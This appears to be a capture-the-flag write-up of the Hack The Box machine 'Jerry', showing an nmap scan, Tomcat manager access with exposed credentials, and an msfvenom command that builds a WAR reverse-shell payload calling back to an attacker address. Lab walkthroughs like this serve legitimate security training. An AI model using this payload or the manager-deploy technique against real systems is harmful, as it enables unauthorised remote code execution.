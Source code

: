 ![logo](/logo.png)

# [Jerry- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 30 Jun 2018 on HTB,Jerry created by [mrh4sh](https://app.hackthebox.com/users/2570).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn
```

###### Output 

![](/Windows/Windows-Easy/Jerry/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-25 19:21 EAT
Nmap scan report for 10.10.10.95
Host is up (0.32s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.86 seconds
```

looking at the results  we find out that there are 1 ports open and its a `JSP engine`and its running an `Apache Tomcat`. 

port[8080]-  http

looking at the port 8080 we find a landing page [http://10.10.10.95:8080](http://10.10.10.95:8080) a find an apache configuration document 

![](/Windows/Windows-Easy/Jerry/Screenshots/browser.png)

I managed App which directs to `manager/html` provides us with password and username

![](/Windows/Windows-Easy/Jerry/Screenshots/manager.png)

and am in the tomcat so let me find where to abuse tomcat from like how we did to Kotarak

![Kotarak](/Linux/Linux-Hard/Kotarak/kotarak)


![](/Windows/Windows-Easy/Jerry/Screenshots/tomcat.png)

lets abuse the manger `war` depoly 

A Web Application Resource (WAR) file is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks, and since these can contain Java code, it’s a great target for gaining execution.

![](/Windows/Windows-Easy/Jerry/Screenshots/war.png)

```sh
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1337 -f war > leshack.war
```

![](/Windows/Windows-Easy/Jerry/Screenshots/msfvenom.png)

Then I click the file from here 

![](/Windows/Windows-Easy/Jerry/Screenshots/tomcatexploit.png)

and we get the shell

![](/Windows/Windows-Easy/Jerry/Screenshots/shell.png)

and since we are root we can get the the user and root flag

![](/Windows/Windows-Easy/Jerry/Screenshots/whoami.png)

we can navigate to `Desktop`

![](/Windows/Windows-Easy/Jerry/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------

